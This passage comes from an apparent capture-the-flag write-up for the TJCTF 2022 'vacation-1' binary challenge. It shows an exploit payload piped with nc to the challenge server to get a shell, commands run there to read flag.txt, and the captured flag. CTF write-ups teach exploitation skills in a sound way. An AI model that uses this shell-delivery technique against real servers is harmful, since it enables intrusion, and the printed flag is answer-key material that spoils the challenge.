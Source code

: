 ```
[Inferior 2 (process 2795532) detached]
process 2795533 is executing new program: /usr/bin/dash
[Inferior 3 (process 2795533) exited normally]
[sync] exit, sync finished
gef➤  
```

Looks like it was successful in executing bash. Let's try it on the real program running on the server:

```bash
$ nc tjc.tf 31680 < payload.txt
Where am I going today?

^C
$
```

It may look like it's not doing anything, but it's actually running bash. However, once the payload has been sent, it reaches the end of the file and stdin is closed. We cannot send more data to it since the input was attached to the file.

We can add the commands that we want to run at the end of the payload, but we can also use a little trick to send the file contents, and then send to the program's stdin whatever it reads from our stdin. The `cat` command (see [cat(1)][man-cat]) is used to concatenate files together. It would print the contents of the files we give it, and then print them out one after another. `cat` also takes in a special argument `-`, which means "read from stdin".

```bash
cat payload.txt - | ./chall
Where am I going today?
ls # what I typed in
chall chall.c Dockerfile ...# my current directory's contents
```

Great! Now let's try it on the real program running on the server. By looking at the Dockerfile provided, we can see that the `flag.txt` is in the same directory as the running challenge program.

```bash
bash cat payload.txt - | nc tjc.tf 31680
Where am I going today?
ls # what I typed in
flag.txt
run
cat flag.txt # what I typed in
tjctf{wh4t_a_n1c3_plac3_ind33d!_7609d40aeba4844c}
```

### Using pwntools
It was a bit of a hassle generating the payload, outputting it to a file, and then cat'ing it along with our input commands to the target program. There must be a better way!

[Pwntools][pwntools] is a "CTF framework and exploit development library" and it contains lots of useful tools and functionality to do what we've just done above more easily and nicely.


[img-prompt]: /assets/img/tjctf2022/vacation-1/0-prompt.png
[chall]: /assets/data/tjctf2022/vacation-1/chall
[chall-src]: /assets/data/tjctf2022/vacation-1/chall.c
[file-dockerfile]: /assets/data/tjctf2022/vacation-1/Dockerfile
[binary-warning]: /tjctf2022/rev/take-a-l.html#file-type-identification
[gef]: https://github.com/hugsy/gef
[gdb-examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[struct-pack-docs]: https://docs.python.org/3/library/struct.html#format-strings
[man-cat]: https://man7.org/linux/man-pages/man1/cat.1.html
[pwntools]: https://docs.pwntools.com/en/stable/